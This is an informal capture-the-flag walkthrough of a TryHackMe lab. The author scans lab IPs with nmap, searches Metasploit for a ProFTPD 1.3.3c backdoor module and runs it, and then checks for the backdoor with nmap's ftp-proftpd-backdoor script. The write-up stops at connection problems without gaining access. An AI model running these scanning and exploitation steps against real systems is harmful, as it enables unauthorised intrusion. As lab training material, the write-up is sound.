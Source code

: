 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.PNG">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.PNG">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.PNG">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.PNG">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.PNG">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.PNG">

(This Link)[Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html]  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.PNG">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot
 
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
